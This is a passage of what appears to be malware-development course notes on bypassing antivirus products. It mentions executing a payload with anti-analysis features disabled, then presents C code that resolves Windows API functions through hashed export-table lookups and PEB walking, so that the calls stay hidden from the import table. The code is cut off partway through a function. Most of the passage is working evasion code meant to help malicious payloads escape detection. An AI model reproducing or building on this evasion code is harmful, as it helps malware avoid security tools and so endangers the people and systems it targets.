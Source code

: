 Executing the payload (Anti analysis features are disabled).

[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-816812885-3a8e28cd-22cb-42f0-9673-9d58ea2471da.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-816812885-3a8e28cd-22cb-42f0-9673-9d58ea2471da.png)### **API Hashing**

So far, all the WinAPIs used have been called directly, which means they can be found in the IAT of the implementation. To resolve this, a new file, `ApiHashing.c`, is created which contains the necessary functions for implementing API hashing.

**ApiHashing.c**


```
#include <Windows.h>#include "Structs.h"#include "Common.h"

FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {

	if (hModule == NULL || dwApiNameHash == NULL)
		return NULL;

	PBYTE pBase = (PBYTE)hModule;

	PIMAGE_DOS_HEADER       pImgDosHdr       = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;

	PIMAGE_NT_HEADERS       pImgNtHdrs       = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER   ImgOptHdr        = pImgNtHdrs->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pImgExportDir    = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

	PDWORD			FunctionNameArray       = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD			FunctionAddressArray    = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD			FunctionOrdinalArray    = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
		CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID	pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);

		// Hashing every function name `pFunctionName`
		// If both hashes are equal, then we found the function we want
		if (dwApiNameHash == HASHA(pFunctionName)) {
			return pFunctionAddress;
		}
	}

	return NULL;
}

HMODULE GetModuleHandleH(DWORD dwModuleNameHash) {

	if (dwModuleNameHash == NULL)
		return NULL;

#ifdef _WIN64
	PPEB			pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
	PPEB			pPeb = (PEB*)(__readfsdword(0x30));
#endif

	PPEB_LDR_DATA		    pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
```